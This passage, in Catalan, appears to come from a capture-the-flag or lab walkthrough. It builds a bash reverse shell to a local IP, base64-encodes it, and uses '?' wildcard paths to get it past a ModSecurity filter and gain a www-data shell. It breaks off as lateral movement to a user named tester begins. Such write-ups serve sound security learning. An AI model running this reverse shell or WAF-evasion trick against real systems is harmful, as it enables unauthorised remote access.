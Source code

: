 Com pots veure, el codi no té validació, així que intentem crear un revshell que ModSecurity pugui "empassar":

Creem un revshell simple i el codifiquem en base64:

`sh -i >& /dev/tcp/192.168.1.116/433 0>&1`

En base64:

`c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ==`

La idea és executar:

`/bin/echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /bin/bash -e`

Si l’executem tal com està, ens mostrarà un "Forbidden", però si ho transformem amb caràcters comodí "?", per exemple:

`/???/e??o c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /???/b??h -e`

Obtenim un revshell amb l'usuari www-data.

## Moviment lateral cap a tester

Ara podem enumerar els usuaris del sistema

![img_p8_1](../../../assets/images/yourwaf/img_p8_1.png)

Veiem un usuari: tester.

A quins grups pertany www-data:
